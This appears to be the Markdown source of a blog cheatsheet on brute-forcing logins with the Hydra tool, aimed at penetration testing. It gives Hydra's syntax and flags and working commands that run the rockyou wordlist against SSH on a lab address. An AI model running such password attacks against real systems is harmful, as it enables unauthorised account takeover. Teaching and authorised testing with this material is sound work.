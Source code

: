 ```yaml
---
layout: post
title: Brute Forcing with Hydra
date: 2025-04-10 16:28 +0300
categories: [Password Attacks]
tags: [brute force, password, hydra]
---
```


## Introduction

Hydra is a fast and flexible online password cracking tool that supports numerous protocols including SSH, FTP, HTTP, SMB, and many others. This cheatsheet provides syntax and examples for using Hydra effectively during penetration testing.

## Basic Syntax

```bash
# General syntax
hydra -l username -P passwordlist.txt service://target
hydra -L userlist.txt -p password service://target
hydra -L userlist.txt -P passwordlist.txt service://target

# Common flags
-l  # Single username
-L  # Username list file
-p  # Single password
-P  # Password list file
-C  # Colon-separated "username:password" format file
-M  # List of multiple targets
-o  # Output file
-t  # Number of parallel connections per target (default: 16)
-s  # Specify port
-V  # Verbose mode
-v  # Show login attempts
-f  # Exit after first valid pair is found
-R  # Restore previous session
```

## Service-Specific Examples

### SSH

```bash
# Brute force SSH with single username
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10

# Using custom port
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10:2222

# With increased threads (be careful not to trigger account lockout)
hydra -l admin -P /usr/share/wordlists/rockyou.txt ssh://10.10.10.10 -t 4
```
